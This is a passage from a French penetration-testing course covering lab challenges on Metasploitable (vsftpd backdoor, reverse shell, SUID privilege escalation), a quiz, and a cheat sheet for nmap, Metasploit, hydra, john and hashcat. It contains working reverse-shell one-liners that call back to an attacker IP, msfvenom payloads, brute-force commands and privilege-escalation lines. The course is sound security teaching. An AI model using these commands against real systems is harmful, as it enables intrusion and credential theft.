hashcat -m 3200 -a 0 bcrypt.txt /usr/share/wordlists/rockyou.txt --status
```

#### Explications

- **Format avant tout** : lancer le mauvais mode = 100 % d'échec, même avec la bonne wordlist. Le préfixe du hash est ton guide.
- **CPU vs GPU** : `john` (CPU) est simple et polyvalent ; `hashcat` (GPU) est 10 à 1000 fois plus rapide sur les formats rapides (MD5, NTLM), et la différence se voit instantanément dans `--status`.
- **Lenteur = sécurité** : bcrypt/sha512crypt sont **délibérément lents** pour ralentir ce type d'attaque. C'est la raison pour laquelle un administrateur doit choisir des algorithmes lents et salés.
- La vitesse affichée par les deux outils devient un argument du rapport : « un hash NTLM de 8 caractères se cracke en X heures sur GPU » est une phrase qui parle à un client.

## Mini Challenges

> ⚠️ **Légal** : les trois défis se font sur tes machines de labo isolées
> (Metasploitable 2, VulnHub, plateformes d'entraînement). Un flag, c'est
> amusant ; une autorisation écrite, c'est indispensable.

---

### Challenge 1 — Facile 🔎 « Identifie le service, trouve la CVE »

#### Objectif

Sur ta VM Metasploitable 2, identifie le service qui tourne sur le port **6200** (ou 21 si tu préfères), sa version exacte, puis retrouve la vulnérabilité associée (CVE) et l'exploit dans Exploit-DB.

#### Indices

- 💡 **Indice 1** : `nmap -sV -p 6200 192.168.56.10` — la version va te sauter aux yeux.
- 💡 **Indice 2** : `searchsploit vsftpd` ou une recherche web sur « vsftpd 2.3.4 backdoor ».
- 💡 **Indice 3** : la CVE est de l'année 2011 et se termine par 2523. L'exploit ouvre un shell sur le port 6200.

#### Correction

```bash
nmap -sV -p 6200 192.168.56.10
# Port 6200 : ouvert après une connexion FTP — c'est le backdoor vsftpd
searchsploit vsftpd
# → exploit vsftpd 2.3.4 backdoor
# CVE : CVE-2011-2523
# Exploit metasploit : exploit/unix/ftp/vsftpd_234_backdoor
```

**Explication** : le port 6200 est le port d'écoute du backdoor de vsftpd 2.3.4 : quand un client se connecte en FTP avec un nom d'utilisateur se terminant par `:)`, le serveur ouvre un shell sur ce port. Cette chaîne « port → version → CVE → exploit » est exactement la démarche de la vulnérabilité analysis (section c).

---

### Challenge 2 — Moyen 🛰️ « Reverse shell et flag »

#### Objectif

Sur une machine de labo (ex. Metasploitable 2 ou une machine VulnHub de ton choix), obtiens un reverse shell via le service que tu as identifié, puis récupère un « flag » (un fichier `flag.txt` que tu auras toi-même créé sur la machine, ou le contenu d'un fichier sensible comme `/etc/passwd`).

#### Indices

- 💡 **Indice 1** : le backdoor vsftpd donne directement root — trop facile ? Essaie plutôt via la faille UnrealIRCd (port 6667) ou les identifiants par défaut SSH pour obtenir un shell **non root**.
- 💡 **Indice 2** : pour un shell non root, exécute sur la cible `bash -i >& /dev/tcp/<ton_IP>/4444 0>&1` pendant que tu écoutes avec `nc -lvnp 4444`.
- 💡 **Indice 3** : stabilise avec `python3 -c 'import pty; pty.spawn("/bin/bash")'` avant de lire le flag.

#### Correction

```bash
# Terminal 1 (toi)
nc -lvnp 4444

# Terminal 2 (toi) — déclenche le shell sur la cible
# via l'exploit choisi, ou directement : ssh msfadmin@192.168.56.10
# puis sur la cible :
bash -i >& /dev/tcp/192.168.56.1/4444 0>&1

# Dans le shell obtenu
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, stty raw -echo; fg, entrée
cat /etc/passwd
find / -name "flag.txt" 2>/dev/null
cat flag.txt
```

**Explication** : la boucle complète — obtenir un accès (exploitation), consolider (stabilisation), puis collecter les preuves (post-exploitation). Le flag matérialise la réussite : c'est ta preuve pour le rapport.

---

### Challenge 3 — Difficile 🏰 « Chaîne complète : scan → exploitation → privesc → flag root »

#### Objectif

Sur une machine VulnHub plus exigeante de ton choix (par exemple une machine type Kioptrix ou une machine récente de HackTheBox/TryHackMe en mode « penser comme un pentester »), réalise la chaîne complète : scan complet, identification d'un point d'entrée, obtention d'un shell **non root**, escalade de privilèges, et lecture d'un flag root (fichier lisible uniquement par root, ex. `/root/flag.txt`).

#### Indices

- 💡 **Indice 1** : scan méthodique : `sudo nmap -Pn -sS -p- --min-rate 1000 <IP> -oA scan-all`, puis `nmap -sV -sC -p <ports_ouverts> <IP>`. Note le service le plus « vieux ».
- 💡 **Indice 2** : une fois le shell obtenu (en utilisateur limité), lance l'énumération : `./linpeas.sh`, `sudo -l`, `find / -perm -4000 -type f 2>/dev/null`, `getcap -r / 2>/dev/null`. Regarde GTFOBins pour chaque binaire SUID/sudo.
- 💡 **Indice 3** : la montée en privilèges vient presque toujours d'une mauvaise configuration (SUID, sudo, cron) ou d'un noyau vulnérable — `uname -a` d'abord, un exploit de noyau en dernier recours (risque de crash).

#### Correction (exemple : binaire SUID)

```bash
# 1. Recon
sudo nmap -Pn -sS -p- --min-rate 1000 192.168.56.20 -oA scan-all
sudo nmap -Pn -sV -sC -p <ports_ouverts> 192.168.56.20 -oA scan-services

# 2. Exploitation (selon le service trouvé — ex. ancienne version web, SMB...)
#    obtiens un shell www-data ou un utilisateur

# 3. Énumération
curl -L http://192.168.56.1:8000/linpeas.sh -o linpeas.sh && chmod +x linpeas.sh
./linpeas.sh | tee linpeas.out
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null

# 4. Privesc — ex. SUID sur /usr/bin/python
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

# 5. Flag
id
cat /root/flag.txt
```

**Explication** : ce challenge reproduit la boucle complète d'un engagement. La difficulté vient de la **discipline** : ne pas sauter d'étape. La recon réduit le champ (un seul point d'entrée exploitable), l'énumération révèle la faible configuration, l'escalade est la preuve finale de l'impact total.

## Quiz

> ⚠️ **Légal** : toutes les questions d'application supposent un environnement
> de laboratoire autorisé. Un quiz ne remplace pas une autorisation écrite —
> mais il vérifie que tu l'as bien comprise.

### (a) 20 QCM corrigés et expliqués

**Q1. Que signifie l'acronyme PTES ?**
- a) Personal Test & Exploit System
- b) Penetration Testing Execution Standard
- c) Professional Technical Security Standard
- d) Public Threat Evaluation Service

✅ **Réponse : b.** Le PTES est le standard qui détaille les 7 phases d'un test d'intrusion : pre-engagement, intelligence gathering, threat modeling, vulnerability analysis, exploitation, post-exploitation, reporting.

**Q2. Quelle est la première phase de la méthodologie PTES ?**
- a) Exploitation
- b) Reporting
- c) Pre-engagement
- d) Reconnaissance

✅ **Réponse : c.** Tout commence par le cadre : contrat, scope, règles d'engagement, autorisation écrite.

**Q3. Quelle option nmap permet de scanner les 65 535 ports TCP ?**
- a) `-p 1-1000`
- b) `-F`
- c) `-p-`
- d) `--top-ports`

✅ **Réponse : c.** `-p-` scanne tous les ports ; `-F` ne fait que les 100 premiers ; `-p 1-1000` et `--top-ports` sont des sous-ensembles.

**Q4. Quelle option nmap détecte les versions des services ?**
- a) `-O`
- b) `-sV`
- c) `-sU`
- d) `-sS`

✅ **Réponse : b.** `-sV` = version detection. `-O` détecte l'OS, `-sS` fait un SYN scan, `-sU` scanne l'UDP.

**Q5. Quel outil est le plus adapté pour balayer très vite un grand réseau avec des milliers de ports par seconde ?**
- a) `gobuster`
- b) `nikto`
- c) `masscan`
- d) `hydra`

✅ **Réponse : c.** `masscan` atteint des dizaines de milliers de paquets par seconde ; `gobuster` énumère les répertoires, `nikto` les failles web, `hydra` fait du bruteforce.

**Q6. Quel outil énumère les répertoires d'un site web ?**
- a) `gobuster dir`
- b) `whois`
- c) `dig`
- d) `theHarvester`

✅ **Réponse : a.** `gobuster dir` fuzze les chemins avec une wordlist. `whois`/`dig` sont de l'OSINT DNS, `theHarvester` collecte e-mails/hôtes.

**Q7. Quel outil teste des combinaisons utilisateur/mot de passe sur SSH ?**
- a) `hashcat`
- b) `john`
- c) `hydra`
- d) `linpeas`

✅ **Réponse : c.** `hydra` est le bruteforceur en ligne de services (SSH, FTP, web...). `john` et `hashcat` attaquent des hashs hors-ligne ; `linpeas` énumère pour l'escalade de privilèges.

**Q8. Le cracking hors-ligne de mots de passe consiste à :**
- a) Tester des mots de passe sur le service en direct
- b) Attaquer le hash récupéré, sans toucher la cible
- c) Envoyer des requêtes plus vite au serveur
- d) Utiliser uniquement la carte graphique de la cible

✅ **Réponse : b.** On attaque l'empreinte (hash) sur sa propre machine, silencieusement. La réponse a décrit le bruteforce en ligne.

**Q9. Quel mode hashcat correspond à un hash MD5 ?**
- a) `-m 1800`
- b) `-m 3200`
- c) `-m 0`
- d) `-m 1000`

✅ **Réponse : c.** `-m 0` = MD5, `-m 1800` = sha512crypt, `-m 3200` = bcrypt, `-m 1000` = NTLM.

**Q10. Quel module Metasploit permet d'écouter un reverse Meterpreter ?**
- a) `exploit/multi/handler`
- b) `auxiliary/scanner/portscan/tcp`
- c) `post/multi/recon/local_exploit_suggester`
- d) `exploit/unix/ftp/vsftpd_234_backdoor`

✅ **Réponse : a.** `exploit/multi/handler` est l'écouteur standard pour les reverse payloads. Les autres sont respectivement un scanner, un post-module et un exploit précis.

**Q11. Comment génère-t-on un payload avec Metasploit, hors de msfconsole ?**
- a) `msfvenom`
- b) `metasploit -g`
- c) `payload-gen`
- d) `ncrack`

✅ **Réponse : a.** `msfvenom -p linux/x64/shell_reverse_tcp LHOST=... LPORT=... -f elf -o shell.elf` génère un binaire sur mesure.

**Q12. Dans `nc -lvnp 4444`, que signifie le `n` ?**
- a) « réseau »
- b) « no DNS » (pas de résolution de nom)
- c) « ne pas écouter »
- d) « nouvelle connexion »

✅ **Réponse : b.** `-n` désactive la résolution DNS : plus rapide et sans trafic DNS inutile.

**Q13. Dans un bind shell, qui initie la connexion ?**
- a) L'attaquant, vers la cible qui écoute
- b) La cible, vers l'attaquant
- c) Les deux simultanément
- d) Personne, c'est automatique

✅ **Réponse : a.** Bind shell : la cible écoute, l'attaquant se connecte. C'est l'inverse du reverse shell (la cible appelle l'attaquant).

**Q14. Quelle commande détecte les binaires SUID sur un système Linux ?**
- a) `ls -la /`
- b) `find / -perm -4000 -type f 2>/dev/null`
- c) `getcap -r /`
- d) `cat /etc/crontab`

✅ **Réponse : b.** `-perm -4000` sélectionne le bit SUID. `getcap` cherche les capabilities, `cat /etc/crontab` lit les tâches cron — deux autres familles de privesc, mais différentes.

**Q15. Quelle commande affiche les droits sudo de l'utilisateur courant ?**
- a) `sudo -l`
- b) `sudo -u`
- c) `whoami`
- d) `groups`

✅ **Réponse : a.** `sudo -l` liste les commandes que l'utilisateur peut exécuter en root et leurs conditions.

**Q16. Sur l'échelle CVSS v3.1, un score de 8.5 correspond à :**
- a) None
- b) Medium
- c) High
- d) Critical

✅ **Réponse : c.** High = 7.0 – 8.9. Critical commence à 9.0.

**Q17. Que signifie CVE dans « CVE-2011-2523 » ?**
- a) Common Vulnerability Evaluation
- b) Common Vulnerabilities and Exposures
- c) Central Vulnerability Engine
- d) Certified Vulnerability Expert

✅ **Réponse : b.** CVE = Common Vulnerabilities and Exposures, la base mondiale des vulnérabilités identifiées.

**Q18. Quel est l'ordre correct des phases PTES ?**
- a) Exploitation, Recon, Reporting, Pre-engagement
- b) Pre-engagement, Intelligence, Vulnerability Analysis, Exploitation, Post-exploitation, Reporting (avec Threat Modeling en 3ᵉ position)
- c) Reporting, Exploitation, Recon, Pre-engagement
- d) Recon, Reporting, Exploitation, Intelligence

✅ **Réponse : b.** Pre-engagement → Intelligence Gathering → Threat Modeling → Vulnerability Analysis → Exploitation → Post-Exploitation → Reporting.

**Q19. Quel outil fait de l'énumération automatique pour l'escalade de privilèges Linux ?**
- a) `linpeas.sh`
- b) `hashcat`
- c) `wpscan`
- d) `nmap -sV`

✅ **Réponse : a.** `linpeas.sh` balaie les mauvaises configurations (SUID, sudo, cron, capabilities, fichiers sensibles, noyau).

**Q20. Quelle option hydra arrête l'attaque dès la première combinaison valide ?**
- a) `-s`
- b) `-t`
- c) `-f`
- d) `-w`

✅ **Réponse : c.** `-f` = « exit after first found ». `-t` règle les tâches parallèles, `-s` le port, `-w` le délai entre essais.

### (b) 10 Vrai / Faux justifiés

**V1. Un pentest peut être réalisé sans contrat écrit si la personne est un ami.** — ❌ **Faux.** La seule protection valable est une autorisation écrite avec un périmètre précis. « Ami » ne protège pas devant la loi.

**V2. `nmap -sV` détecte les versions des services.** — ✅ **Vrai.** C'est la détection de version, indispensable pour relier service → CVE.

**V3. Le scan `-p-` de nmap ne teste que les 1000 ports les plus courants.** — ❌ **Faux.** `-p-` teste les 65 535 ports TCP ; c'est `-F` qui limite aux ports courants.

**V4. Le bruteforce en ligne avec hydra est totalement silencieux et ne laisse aucune trace.** — ❌ **Faux.** Chaque essai génère des logs sur la cible ; c'est l'attaque la plus bruyante qui soit.

**V5. Dans une reverse shell, la cible se connecte vers le poste de l'attaquant.** — ✅ **Vrai.** C'est précisément ce qui lui permet de passer les pare-feu entrants.

**V6. john peut utiliser rockyou comme wordlist.** — ✅ **Vrai.** `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` est une commande standard.

**V7. Un score CVSS de 10.0 correspond à la sévérité « Critical ».** — ✅ **Vrai.** 9.0 – 10.0 = Critical, et 10.0 est le maximum.

**V8. linpeas est un outil d'exploitation qui donne directement root.** — ❌ **Faux.** C'est un outil d'**énumération** : il trouve les failles potentielles, l'exploitation reste à faire (GTFOBins, etc.).

**V9. Metasploit ne contient que des exploits, pas de scanners.** — ❌ **Faux.** Le framework contient des **auxiliaires** de scan et d'énumération (ex. `auxiliary/scanner/ssh/ssh_login`, `auxiliary/scanner/portscan/tcp`).

**V10. Le rapport exécutif s'adresse à la direction, pas aux équipes techniques.** — ✅ **Vrai.** C'est la synthèse non technique ; le détail technique (commandes, preuves, POC) va dans le rapport technique.

### (c) 10 questions ouvertes corrigées

**Q1. Cite les 7 phases du standard PTES.** **Correction** : 1. Pre-engagement, 2. Intelligence Gathering, 3. Threat Modeling, 4. Vulnerability Analysis, 5. Exploitation, 6. Post-Exploitation,
7. Reporting.

**Q2. Pourquoi est-il crucial d'utiliser `-p-` dans un scan nmap ?** **Correction** : Sans `-p-`, nmap ne teste que les 1000 ports les plus courants. Un service sur un port atypique (ex. 6200, le backdoor vsftpd) reste invisible, alors qu'il peut être le point d'entrée le plus faible de tout le système. La cartographie complète est le socle de l'analyse.

**Q3. Quelle est la différence entre reconnaissance passive et active ?** **Correction** : La recon passive n'envoie aucun trafic vers la cible : on consulte des sources publiques (whois, DNS, crt.sh, moteurs, archives) — indétectable. La recon active interagit avec la cible (ping, scan de ports, connexions) : plus précise, mais détectable et bruyante.

**Q4. Pourquoi doit-on stabiliser un reverse shell ?** **Correction** : Le shell brut n'a pas de TTY complet : pas de `clear`, pas de raccourcis, les éditeurs refusent de s'ouvrir, les signaux (Ctrl+C) sont mal gérés. Stabiliser avec Python (`pty.spawn`), `TERM=xterm` et `stty raw -echo; fg` donne un terminal interactif fiable, indispensable pour la post-exploitation.

**Q5. Différence entre bruteforce en ligne et cracking hors-ligne ?** **Correction** : Le bruteforce en ligne (hydra) teste des mots de passe directement sur un service : lent, bruyant, parfois bloqué. Le cracking hors-ligne (john/hashcat) attaque le hash volé sur sa propre machine : très rapide, silencieux, sans impact sur la cible.

**Q6. Qu'est-ce qu'un POC (Proof of Concept) dans un pentest ?** **Correction** : Une démonstration minimale et reproductible qu'une vulnérabilité est exploitable : commandes exactes + sorties + captures. Le POC transforme une affirmation en preuve irréfutable pour le rapport.

**Q7. Pourquoi faut-il documenter chaque commande pendant un pentest ?** **Correction** : Pour trois raisons : (1) le rapport technique exige des preuves reproductibles ; (2) la traçabilité protège le pentester (tout est justifiable) ; (3) si une action doit être vérifiée ou corrigée, on sait exactement ce qui a été fait. Le rapport s'écrit au fur et à mesure, pas après coup.

**Q8. Cite trois familles de failles pour l'escalade de privilèges Linux.** **Correction** : Exemples : sudo mal configuré (`sudo -l`), binaires SUID (`find / -perm -4000`), tâches cron root modifiables, capabilities (`getcap`), noyau vulnérable, fichiers sensibles (`.bash_history`, `/etc/shadow` lisible).

**Q9. Décris la structure standard d'un rapport technique de pentest.** **Correction** : 1. Synthèse exécutive ; 2. Portée et méthodologie ; 3. Synthèse des constats (tableau avec CVSS) ; 4. Constats détaillés (une fiche par vulnérabilité : titre, gravité + chaîne vectorielle, actifs, description, preuves, impact, recommandations, références CWE/CVE) ; 5. Recommandations priorisées ; 6. Annexes (inventaire, outils, chronologie, captures brutes).

**Q10. Pourquoi exiger une autorisation écrite avant tout test ?** **Correction** : Sans autorisation écrite avec périmètre précis, toute action sur un système tiers est une intrusion punissable. L'autorisation protège le pentester juridiquement, protège le client (actions encadrées, limitées) et matérialise le consentement exigé par la loi.

### (d) 5 exercices pratiques corrigés

**Exercice 1 — Ordonner les phases.** Remets dans l'ordre : Exploitation, Reporting, Pre-engagement, Intelligence Gathering, Post-Exploitation, Vulnerability Analysis, Threat Modeling. **Correction** : 1. Pre-engagement → 2. Intelligence Gathering → 3. Threat Modeling → 4. Vulnerability Analysis → 5. Exploitation → 6. Post-Exploitation → 7. Reporting.

**Exercice 2 — Choisir l'outil adapté.** Tu dois : (a) scanner 65 535 ports d'une IP ; (b) trouver les répertoires d'un site ; (c) tester des mots de passe sur FTP ; (d) cracker un hash MD5 rapidement sur GPU ; (e) énumérer les failles de privesc. Quels outils choisis-tu parmi : `masscan`, `gobuster`, `john`, `hydra`, `linpeas`, `hashcat`, `nikto`, `searchsploit` ? **Correction** : (a) `masscan` (ou nmap `-p-`) ; (b) `gobuster dir` ; (c) `hydra` ; (d) `hashcat -m 0` (GPU) ou `john` (CPU) ; (e) `linpeas.sh`. `nikto`/`searchsploit` ne correspondaient à aucun cas ici (web scan / recherche d'exploits).

**Exercice 3 — Interpréter un scan.**
```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1
80/tcp   open  http       Apache httpd 2.2.22
6200/tcp open  unknown
```
Que conclure, et quelles actions mener ? **Correction** : vsftpd 2.3.4 = backdoor connu (CVE-2011-2523, exploit Metasploit `exploit/unix/ftp/vsftpd_234_backdoor`), port 6200 = port d'écoute du backdoor. Actions : vérifier la CVE (`searchsploit vsftpd`), estimer le score CVSS (≈ 9.8, accès root à distance), tester le backdoor en labo, documenter. Apache 2.2.22 et OpenSSH 5.9p1 sont obsolètes : à noter dans l'inventaire des versions pour l'analyse de vulnérabilités.

**Exercice 4 — Calculer un score CVSS simple.** Vulnérabilité : exécution de code à distance sur un service web public, sans authentification, sans interaction utilisateur, impact total en confidentialité/intégrité/disponibilité, scope inchangé. **Métriques à choisir** : AV:N, AC:L, PR:N, UI:N, S:U, C:H, I:H, A:H. **Correction** : en posant ces métriques dans le calculateur (`www.first.org/cvss/calculator/3.1`) on obtient 9.8 → sévérité **Critical** (voir la formule pas à pas de la section n). La chaîne vectorielle à reporter : `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`.

**Exercice 5 — Analyser un constat de rapport et trouver ce qui manque.** Un rapport contient : « Le serveur est vulnérable à une injection SQL. » Que manque-t-il pour un constat professionnel ? **Correction** : tout le bloc « preuve » : le POC (requêtes exactes), les sorties ou captures horodatées, le score CVSS + chaîne vectorielle, l'actif concerné, l'impact, la recommandation et la référence (CWE/CVE). Sans ces éléments, l'équipe technique ne peut ni reproduire, ni corriger, ni prioriser — et le client peut légitimement refuser le rapport (voir Cas réel n° 2).

## Cheat Sheet

> ⚠️ **Légal** : cette fiche s'applique à un environnement autorisé (labo,
> périmètre contractuel). Une commande de pentest sur un système tiers sans
> autorisation écrite est une infraction.

### Phases PTES en un coup d'œil

| # | Phase | Question clé | Livrable |
| - | ----- | ------------ | -------- |
| 1 | Pre-engagement | Ai-je le droit de tester ? | Contrat + RoE + autorisation |
| 2 | Intelligence Gathering | Où se trouve la cible ? | Inventaire d'actifs |
| 3 | Threat Modeling | Que vaut-elle ? | Cibles priorisées |
| 4 | Vulnerability Analysis | Quelles failles ? | Liste CVE + CVSS |
| 5 | Exploitation | Peut-on en tirer un accès ? | POC + premier accès |
| 6 | Post-Exploitation | Quel est l'impact maximal ? | Privesc + données |
| 7 | Reporting | Comment le prouver ? | Rapport exécutif + technique |

### Commandes nmap (options clés)

| Commande | Effet |
| -------- | ----- |
| `nmap -sn 192.168.1.0/24` | Découverte d'hôtes (ping sweep) |
| `sudo nmap -Pn -sS -p- --min-rate 1000 IP` | Scan SYN de tous les ports |
| `nmap -Pn -sT -p- IP` | Scan TCP connect (sans root) |
| `nmap -sU -p 53,161 IP` | Scan UDP |
| `nmap -sV -p <ports> IP` | Détection de versions |
| `nmap -O IP` | Détection d'OS (root) |
| `nmap -sC -p <ports> IP` | Scripts par défaut |
| `nmap --script vuln -p <ports> IP` | Scripts de vulnérabilités |
| `nmap --script http-enum IP` | Énumération web |
| `nmap -A IP` | Aggressif : OS + versions + scripts + traceroute |
| `nmap -Pn` | Sauter la découverte d'hôte |
| `nmap -n` | Pas de résolution DNS |
| `nmap -T4` | Timing agressif (0 = très lent, 5 = fou) |
| `nmap -oA base` | Sauvegarde normal + greppable + XML |
| `nmap -iL list.txt` | Scanner une liste d'IP |
| `masscan 192.168.1.0/24 -p1-65535 --rate=10000` | Scan très rapide (root) |
| `rustscan -a IP --range 1-65535 -b 1500` | Scan rapide Rust |

### Commandes Metasploit (msfconsole)

| Commande | Effet |
| -------- | ----- |
| `msfconsole` | Lancer l'interface |
| `msfdb init` / `msfdb run` | Initialiser/démarrer la base |
| `db_nmap -sV IP` | Scanner nmap directement dans la base |
| `search <mot-clé>` | Chercher un module |
| `use <module>` | Sélectionner un module |
| `show options` | Afficher les options |
| `set RHOSTS IP` / `set RPORT 80` | Cible |
| `set LHOST IP` / `set LPORT 4444` | Écouteur reverse |
| `show payloads` | Lister les payloads |
| `set PAYLOAD <payload>` | Choisir le payload |
| `run` ou `exploit` | Exécuter |
| `sessions -l` / `sessions -i 1` | Lister / rejoindre une session |
| `background` | Mettre une session en arrière-plan |
| `sessions -u 1` | Upgrade en Meterpreter (si compatible) |
| `hosts` / `services` / `vulns` | Interroger la base de données |
| `resource script.rc` | Jouer un script de commandes |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf -o s.elf` | Générer un payload ELF |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe -o s.exe` | Générer un payload exe |

### Reverse shells (côté cible) et écouteurs

| Outil | Écouteur (toi) | Cible |
| ----- | -------------- | ----- |
| Netcat | `nc -lvnp 4444` | `nc -e /bin/sh IP 4444` (variante OpenBSD) |
| Bash | `nc -lvnp 4444` | `bash -i >& /dev/tcp/IP/4444 0>&1` |
| Python 3 | `nc -lvnp 4444` | `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'` |
| Socat | `socat TCP-LISTEN:4444,reuseaddr,fork` | `socat TCP:IP:4444 EXEC:/bin/sh,pty,stderr,setsid,sigint,sane` |
| Metasploit | `use exploit/multi/handler` | payload reverse TCP |

**Stabilisation du shell :**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z puis :
stty raw -echo; fg
# entrée, puis :
stty rows 40 cols 80
```

### Hydra (bruteforce en ligne)

| Commande | Cible |
| -------- | ----- |
| `hydra -l user -P pass.txt ssh://IP` | SSH |
| `hydra -l user -P pass.txt ftp://IP` | FTP |
| `hydra -L users.txt -P pass.txt smtp://IP` | SMTP |
| `hydra -L users.txt -P pass.txt smb://IP` | SMB |
| `hydra -l admin -P pass.txt rdp://IP` | RDP |
| `hydra -l admin -P pass.txt http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid"` | Formulaire web |
| `-t 4` | Tâches parallèles (rester raisonnable) |
| `-f` | S'arrêter au premier succès |
| `-I` | Ne pas reprendre une session sauvegardée |
| `-o fichier.txt` | Sauvegarder le résultat (preuve) |

### John the Ripper

| Commande | Effet |
| -------- | ----- |
| `john hash.txt` | Cracking auto-détection du format |
| `john --format=raw-md5 --wordlist=rockyou.txt hash.txt` | MD5 + wordlist |
| `john --format=sha512crypt --wordlist=rockyou.txt hash.txt` | sha512crypt |
| `john --show hash.txt` | Afficher les hashs cassés |
| `john --incremental hash.txt` | Recherche intelligente |
| `john --list=formats` | Lister les formats supportés |
| `zip2john fichier.zip > z.hash` | Convertir une archive |
| `ssh2john id_rsa > s.hash` | Convertir une clé SSH |
| `keepass2john base.kdbx > k.hash` | Convertir une base KeePass |

### Hashcat

| Commande | Effet |
| -------- | ----- |
| `hashcat -m 0 -a 0 hash.txt rockyou.txt` | MD5 (dictionnaire) |
| `hashcat -m 100 -a 0 hash.txt rockyou.txt` | SHA-1 |
| `hashcat -m 1800 -a 0 hash.txt rockyou.txt` | sha512crypt ($6$) |
| `hashcat -m 3200 -a 0 hash.txt rockyou.txt` | bcrypt |
| `hashcat -m 1000 -a 0 hash.txt rockyou.txt` | NTLM |
| `hashcat -m 22000 -a 0 handshake.hc22000 rockyou.txt` | WPA |
| `hashcat -m 0 -a 3 hash.txt '?l?l?l?l?l?d'` | Masque (bruteforce par motif) |
| `hashcat --status` | Suivi en direct |
| `hashcat --show` | Résultats déjà trouvés |
| `hashcat -I` | Lister les devices GPU |
| `-r <fichier.rules>` | Appliquer des règles de transformation |

### LinPEAS / énumération privesc

| Commande | Effet |
| -------- | ----- |
| `curl -L <URL>/linpeas.sh -o linpeas.sh && chmod +x linpeas.sh` | Télécharger |
| `./linpeas.sh` | Énumération complète |
| `./linpeas.sh -a` | Mode tout |
| `./linpeas.sh -s` | Mode silencieux (rapide) |
| `sudo -l` | Droits sudo |
| `find / -perm -4000 -type f 2>/dev/null` | Binaires SUID |
| `find / -perm -2000 -type f 2>/dev/null` | Binaires SGID |
| `getcap -r / 2>/dev/null` | Capabilities |
| `cat /etc/crontab` et `ls -la /etc/cron.d/` | Tâches cron |
| `uname -a` | Version du noyau |
| GTFOBins (gtfobins.github.io) | Techniques d'abus par binaire |

### Wordlists utiles

| Wordlist | Chemin typique (Kali) | Usage |
| -------- | --------------------- | ----- |
| rockyou | `/usr/share/wordlists/rockyou.txt` | Mots de passe (décompresser avec `gunzip`) |
| Dirb common | `/usr/share/wordlists/dirb/common.txt` | Répertoires web (rapide) |
| Dirbuster medium | `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` | Répertoires web (complet) |
| SecLists | `/usr/share/seclists/` (Projets Discovery, Passwords, Usernames...) | Tout : usernames, pass, répertoires, sous-domaines |
| RockYou top usernames | `/usr/share/seclists/Usernames/top-usernames-shortlist.txt` | Utilisateurs (shortlist) |

### Pièges et astuces (rappel)

- **Toujours `-p-`** : un service atypique est souvent la faille.
- **Toujours `-oA`** : sans sauvegarde, pas de preuve.
- **Toujours `show options`** dans Metasploit avant `run`.
- **Toujours stabiliser** un shell avant d'explorer.
- **Toujours `-f`** sur hydra pour arrêter au premier succès.
- **Toujours identifier le format** de hash avant de cracker.
- **Vérifier la version du noyau** avant tout exploit de noyau (risque de crash).
- **Capturer, horodater, sauvegarder** : chaque preuve doit pouvoir être rejouée.

## Pièges fréquents

> ⚠️ **Légal** : chaque piège se corrige dans un environnement autorisé. Le
> premier piège de la liste est d'ailleurs une question de loi.

**1. Pentester sans autorisation écrite.** *Pourquoi :* on veut « essayer » sur une cible réelle ou un réseau d'entreprise, parfois « pour rigoler ». *Éviter :* la loi punit l'intrusion sans autorisation. Règle d'or : jamais une commande offensive sur un système tiers sans contrat, scope et autorisation signés. Ton propre labo ou des plateformes d'entraînement, toujours.

**2. Oublier le scope en cours de route.** *Pourquoi :* on suit une piste et on déborde vers une machine hors périmètre, un sous-domaine oublié, un réseau non prévu. *Éviter :* relire le scope avant chaque phase, documenter toute découverte hors périmètre sans l'exploiter, et demander une extension écrite si la piste vaut le coup.

**3. Casser le système du client.** *Pourquoi :* exploit de noyau mal choisi, bruteforce trop agressif qui verrouille des comptes, requêtes SQL destructrices. *Éviter :* respecter les RoE, tester les exploits en labo d'abord, privilégier les POC minimaux, avoir un contact d'urgence. Si un système tombe : le signaler immédiatement, pas le cacher.

**4. Ne rien documenter.** *Pourquoi :* on est « dans le flow » et on oublie de noter les commandes. *Éviter :* un fichier de notes horodaté par phase, `tee` pour sauvegarder les sorties, captures d'écran systématiques. Le rapport s'écrit au fur et à mesure, pas de mémoire.

**5. Confondre scan et exploitation.** *Pourquoi :* lancer `--script vuln` ou `sqlmap` avec des options destructrices « pour voir ». *Éviter :* le scan observe, l'exploitation agit. Chaque action d'exploitation doit être choisie, justifiée et autorisée — pas lancée par curiosité.

**6. Oublier `-p-` sur nmap.** *Pourquoi :* par défaut, 1000 ports ; on gagne du temps en croyant que ça suffit. *Éviter :* toujours `-p-` puis `-sV` sur les ports ouverts. Le service qui manque est souvent celui qu'un attaquant viserait en premier.

**7. Wordlist inadaptée.** *Pourquoi :* fuzzer un site WordPress avec une wordlist générique, ou tester des mots de passe avec une liste minuscule. *Éviter :* adapter l'outil et la liste au contexte (SecLists par technologie : Apache, WordPress... ; wordlists de noms d'employés issues de la recon).

**8. Payload détecté ou qui ne revient pas.** *Pourquoi :* payload générique (anti-virus, EDR), mauvais LHOST/LPORT, port bloqué, écouteur jamais lancé. *Éviter :* vérifier LHOST/LPORT, tester l'écouteur d'abord, préférer un reverse shell stable (socat/meterpreter) et, en labo uniquement, encoder le payload (`msfvenom -e x86/shikata_ga_nai`). En engagement réel, l'évasion est le métier du red team (niveau 10), pas du pentest standard.

